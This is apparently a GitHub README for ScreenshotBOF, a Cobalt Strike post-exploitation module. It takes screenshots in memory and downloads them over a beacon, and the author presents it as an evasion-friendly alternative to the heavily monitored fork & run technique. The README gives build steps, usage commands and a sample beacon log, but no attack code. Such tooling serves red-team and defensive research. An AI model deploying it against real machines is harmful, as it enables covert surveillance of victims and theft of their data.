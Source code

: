 # ScreenshotBOF

An alternative screenshot capability for Cobalt Strike that uses WinAPI and does not perform a fork & run. Screenshot downloaded in memory.

## Self Compilation
1. git clone the repo
2. open the solution in Visual Studio
3. Build project BOF

## Save methods:  
0. drop file to disk
1. download file over beacon (Cobalt Strike only)

## Usage
1. import the screenshotBOF.cna script into Cobalt Strike
2. use the command screenshot_bof {local filename} {save method 0/1}
  
```
beacon> screenshot_bof sad.bmp 1
[*] Running screenshot BOF by (@codex_tf2)
[+] host called home, sent: 5267 bytes
[+] received output:
[*] Screen saved to bitmap
[+] received output:
[*] Downloading bitmap over beacon with filename sad.bmp
[*] started download of sad.bmp
```

3. if downloaded over beacon, BMP can be viewed in Cobalt Strike by right clicking the download and clicking "Render BMP" (credit @BinaryFaultline)  
  
![image](https://user-images.githubusercontent.com/29991665/199232459-0601e5d8-d534-4f05-bde4-c8acf3bd3c12.png)



## Notes
- no evasion is performed, which should be fine since the WinAPIs used are not malicious

## Why did I make this?
Cobalt Strike uses a technique known as fork & run for many of its post-ex capabilities, including the screenshot command. While this behaviour provides stability, it is now well known and heavily monitored for. This BOF is meant to provide a more OPSEC safe version of the screenshot capability.

## Credits
- Made using https://github.com/securifybv/Visual-Studio-BOF-template
- Save BMP to file from https://stackoverflow.com/a/60667564
- in memory download from https://github.com/anthemtotheego/CredBandit
- @BinaryFaultline for BMP rendering in aggressorscript, and screenshot callback branch
